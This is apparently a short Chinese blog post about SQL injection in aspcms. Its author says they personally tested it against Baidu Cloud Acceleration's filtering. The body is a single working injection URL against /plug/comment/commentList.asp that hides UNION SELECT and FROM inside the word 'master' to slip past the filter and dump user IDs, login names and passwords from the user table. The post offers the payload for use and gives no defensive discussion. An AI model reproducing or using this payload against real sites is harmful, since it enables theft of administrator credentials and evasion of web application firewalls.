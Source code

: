 ```yaml
---
title: "aspcms SQL 注入"
date: 2018-03-21T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


亲测过百度云加速

<!--more-->

**payload**

`/plug/comment/commentList.asp?id=0 unmasterion semasterlect top 1 UserID,GroupID,LoginName,Password,now(),null,1frmasterom {prefix}user`